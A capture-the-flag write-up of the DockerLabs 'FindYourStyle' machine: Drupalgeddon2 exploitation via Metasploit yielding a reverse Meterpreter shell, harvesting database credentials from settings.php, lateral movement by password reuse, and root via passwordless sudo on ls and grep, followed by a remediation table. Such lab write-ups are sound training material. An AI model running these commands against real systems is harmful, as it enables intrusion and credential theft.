










# FindYourStyle — DockerLabs Writeup

**Platform:** DockerLabs | **Difficulty:** Easy | **Target IP:** 172.17.0.2 | **Attacker IP:** 172.17.0.1

## Machine info



## Summary

**FindYourStyle** is an Easy DockerLabs machine built around an outdated Drupal 8 installation vulnerable to **Drupalgeddon2** (CVE-2018-7600), a pre-auth remote code execution flaw. Exploiting it with Metasploit yielded a shell as `www-data`. From there, the Drupal database configuration file leaked valid credentials for a system user, allowing lateral movement. That user had passwordless `sudo` access to `ls` and `grep`, which was abused to read a root-owned file containing the root password in plaintext.

**Attack chain:** Drupal RCE — Drupalgeddon2 (CVE-2018-7600) → RCE as www-data → Database Credentials Disclosure (`settings.php`) → Lateral Movement (`ballenita`) → Sudo Misconfiguration (`ls`/`grep`) → Root

## 1. Reconnaissance

Confirmed connectivity to the target:



Full port scan with `nmap`:

```
nmap -p- -sS -sC -sV -vvv --open -oN scan.txt 172.17.0.2

PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Welcome to Find your own Style | Find your own Style
|_http-generator: Drupal 8 (https://www.drupal.org)
| http-robots.txt: 22 disallowed entries
| /core/ /profiles/ /README.txt /web.config /admin/
| /comment/reply/ /filter/tips/ /node/add/ /search/ /user/register/
|_...
```

Only port 80 is open. The `http-generator` NSE script fingerprints the CMS directly: **Drupal 8**.



## 2. Web Enumeration

Directory brute-forcing with `gobuster`:

```
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,js,txt

index.php            (Status: 200) [Size: 8860]
core                 (Status: 301) [Size: 307] [--> http://172.17.0.2/core/]
install.php          (Status: 301) [Size: 318] [--> http://172.17.0.2/core/install.php]
README.txt           (Status: 200) [Size: 5889]
robots.txt           (Status: 200) [Size: 1596]
```

`core/install.php` discloses the exact Drupal version and build state:



Confirmed: **Drupal 8.5.0**.

## 3. Vulnerability Research

Searched for known exploits against this version:

```
searchsploit drupal 8.5.0

Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution           | php/webapps/44449.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (Metasploit)        | php/remote/44482.rb
```

Drupal 8.5.0 falls squarely in the vulnerable range for **Drupalgeddon2 (CVE-2018-7600)**, a pre-authentication RCE in Drupal's Form API.

## 4. Exploitation

Used the Metasploit module for Drupalgeddon2:

```
msf > use exploit/unix/webapp/drupal_drupalgeddon2
msf exploit(unix/webapp/drupal_drupalgeddon2) > set rhost 172.17.0.2
msf exploit(unix/webapp/drupal_drupalgeddon2) > set lhost 172.17.0.1
msf exploit(unix/webapp/drupal_drupalgeddon2) > exploit

[*] Started reverse TCP handler on 172.17.0.1:4444
[+] The target is vulnerable. Detected vulnerable version 8
[*] Sending stage (72686 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (172.17.0.1:4444 -> 172.17.0.2:34854)
meterpreter >
```

Shell obtained as `www-data`.

## 5. Post-Exploitation — Credential Discovery

Searched Drupal's configuration for database credentials:

```
find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null

'database' => 'database_under_beta_testing',
'username' => 'ballenita',
'password' => 'ballenitafeliz',
'host' => 'localhost',
'port' => '3306',
'driver' => 'mysql',
```

The database credentials (`ballenita:ballenitafeliz`) were left in a code comment inside `settings.php` — and matched a real system user.

## 6. Lateral Movement

Reused the leaked credentials to pivot from `www-data` to the `ballenita` system account:

```
su ballenita
```



## 7. Privilege Escalation

Checked sudo permissions for `ballenita`:

```
sudo -l

User ballenita may run the following commands on 1f1b65e5c886:
    (root) NOPASSWD: /bin/ls, /bin/grep
```



`ls` and `grep` can be run as root without a password. Neither is a typical GTFOBins shell-spawning binary, but both can still be abused to **read any file on the system as root** — enough to find and read a root-owned secret.

Listed root's home directory as root:

```
sudo -u root /bin/ls /root
```



Found `secretitomaximo.txt`. Read it as root:

```
sudo -u root /bin/grep '' /root/secretitomaximo.txt
```



The file contained the root password in plaintext: `nobodycanfindthispasswordrootrocks`.

Switched to root with the recovered password:

```
su root
```





```
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```

Root confirmed.

## Flag

`nobodycanfindthispasswordrootrocks` — the root password recovered from `/root/secretitomaximo.txt`.

## Root Cause & Remediation

| Issue | Fix |
|---|---|
| Outdated Drupal 8.5.0, vulnerable to Drupalgeddon2 (CVE-2018-7600) | Keep Drupal core updated and apply security patches promptly |
| Database credentials stored in a code comment inside `settings.php`, reused as a real system account's password | Never reuse database credentials for system accounts; keep secrets out of version-controlled or world-readable config files |
| `ballenita` has passwordless `sudo` access to `ls` and `grep` | Remove the sudo entry; if read access is genuinely needed, scope it to specific files rather than granting unrestricted `ls`/`grep` |
| Root password stored in plaintext in a root-owned file | Never store credentials in plaintext files, even under `/root` |
